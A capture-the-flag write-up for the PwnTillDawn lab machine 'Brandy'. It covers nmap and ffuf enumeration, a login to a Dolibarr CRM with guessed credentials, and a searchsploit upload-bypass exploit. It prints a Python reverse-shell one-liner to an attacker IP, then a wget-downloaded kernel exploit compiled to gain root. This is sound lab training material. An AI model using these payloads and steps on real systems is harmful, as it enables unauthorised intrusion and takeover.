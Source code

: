 ![image](https://user-images.githubusercontent.com/87468669/220059104-e8f1bbed-988f-4e20-a2c7-2a70c51af391.png)

first start enumeration with nmap

`nmap -sC -sV -T4 -oN quicknmap.txt -Pn <IP>`

```
# Nmap 7.93 scan initiated Sat Nov 19 08:11:51 2022 as: nmap -sC -sV -T4 -oN quicknmap.txt -Pn 10.150.150.27
Nmap scan report for 10.150.150.27
Host is up (0.24s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 45666234f121bf8b4318fb24a7f32976 (RSA)
|   256 1c2a2ee4e8eacceca5c444d018752434 (ECDSA)
|_  256 241a99372753a4ce0e30d414d068df2b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov 19 08:12:53 2022 -- 1 IP address (1 host up) scanned in 62.68 seconds
```

![image](https://user-images.githubusercontent.com/87468669/220060232-8696498c-7058-4123-9f97-a4afcd62b2cf.png)

Noticed a web server running on port 80, opening it on a browser we got directed to a default `apache` webpage. checking the page source, there was nothing sus there. let's burst hidden dirs using ffuf.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/pwntilldawn/brandy]
└─$ ffuf -u "http://10.150.150.27/FUZZ" -w /usr/share/wordlists/dirb/common.txt -fc 403 -fs 0 -ic  -e .txt,.php,.bak,.sql,.zip

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.150.150.27/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .txt .php .bak .sql .zip 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
 :: Filter           : Response size: 0
________________________________________________

                        [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 6113ms]
cart                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 194ms]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 167ms]
master                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 157ms]
:: Progress: [27684/27684] :: Job [1/1] :: 249 req/sec :: Duration: [0:02:02] :: Errors: 0 ::
```

let's check out the `cart` dir first.

![image](https://user-images.githubusercontent.com/87468669/220062081-a2b7b6a9-5713-46eb-a803-a930529f2fc1.png)

cool we got a vhost `crm.pwntilldawn.com`. let's add it to our hosts file. let's check the second dir `master`

![image](https://user-images.githubusercontent.com/87468669/220063054-295063a5-00df-4e7f-bfe3-5fdc3147b1f4.png)

we got a pic talking about `rick`, let's keep that name in our note. let's check the vhost.

![image](https://user-images.githubusercontent.com/87468669/220063389-5cbec98a-926e-4d74-a4f2-1cc016ad1751.png)

opening the vhost on a browser we got redirected to a login page and it is running a `Dolibarr 5.0.3` cms. 

![image](https://user-images.githubusercontent.com/87468669/220063858-43b4bc0b-dffc-4f56-bed9-a76d01c1edb1.png)

tried to login with creds `rick:rick` and bull's eye it worked. now let's look for an exploit for this cms.

![image](https://user-images.githubusercontent.com/87468669/220066911-7b1e363a-15a6-481d-ac48-ab2e49138075.png)

found an exploit on searchsploit. `php/webapps/49711.py` a file upload restriction bypass exploit.

![image](https://user-images.githubusercontent.com/87468669/220067390-2f5bf2cf-7d62-48cf-9154-3e1eb74738bf.png)

cool we got an rce, let's get a reverse shell.

![image](https://user-images.githubusercontent.com/87468669/220074968-93b7589b-16f1-4613-8eeb-a596065896bb.png)

fireup ncat listener.

reverse shell payload ready:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.66.67.146",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/pwntilldawn/brandy]
└─$ nc -lnvp 1337 
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.150.150.27.
Ncat: Connection from 10.150.150.27:46238.
www-data@Brandy:/var/www/html/dolibarr/documents/users/2$ 
```
check back ncat listener and boom we got a reverse shell.

## Privilege Escalation

```
www-data@Brandy:/tmp$ uname -a
Linux Brandy 4.15.0-91-generic #92-Ubuntu SMP Fri Feb 28 11:09:48 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
![image](https://user-images.githubusercontent.com/87468669/220092233-2428a972-a9c3-4a82-af75-bcc410e7b7ac.png)

noticed it is running an old version of ubuntu, let's download the exploit into the target.

```
www-data@Brandy:/tmp$ wget 10.66.67.146/exploit.c
--2023-02-20 11:58:36--  http://10.66.67.146/exploit.c
Connecting to 10.66.67.146:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3560 (3.5K) [text/x-csrc]
Saving to: 'exploit.c'

exploit.c                               100%[===============================================================================>]   3.48K  --.-KB/s    in 0.001s  

2023-02-20 11:58:37 (4.83 MB/s) - 'exploit.c' saved [3560/3560]

www-data@Brandy:/tmp$ gcc exploit.c -o exploit
www-data@Brandy:/tmp$ chmod +x exploit
www-data@Brandy:/tmp$ ./ext
bash: ./ext: No such file or directory
www-data@Brandy:/tmp$ ./exploit 
bash-4.4# 
```
downloaded and run the exploit and bull's eye we got root.

![image](https://user-images.githubusercontent.com/87468669/220092844-6f4d1cb1-f897-415c-bb25-15a89321b15c.png)

and we are through.



